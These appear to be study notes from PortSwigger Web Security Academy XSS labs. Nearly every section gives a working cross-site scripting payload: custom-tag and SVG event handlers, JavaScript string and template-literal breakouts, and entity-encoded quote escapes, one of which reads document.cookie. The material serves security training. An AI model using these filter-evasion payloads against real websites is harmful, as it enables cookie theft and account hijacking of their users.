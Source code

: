 ```
location="https://0aa8009904d13c3980295dc300300029.web-security-academy.net/?search=<xss autofocus tabindex=1 onfocusin=alert(document.cookie)></xss>"
</script>
```


##### SVG TAGS
```
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```


##### Reflected XSS into a JavaScript string with single quote and backslash escaped

```
\\
\' 
</script><script>alert(1)</script>
```


##### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#xss-using-html-quote-encapsulation
```
< encoded
"" encoded
\'
\'-alert(1)//
\'+alert(1)//
\';alert(1)//
\";alert(1);//
```

##### Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
```
<> "" encoded
\ ' escaped
&    &amp;
<    &lt;
>    &gt;
"    &quot;
'    &#x27;
http://payload2&#x27;-alert(1)-&#x27;
```


##### Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
![[Pasted image 20231026102309.png]]
```
We can use the following payload to break out the variable:
${alert(1)}
```
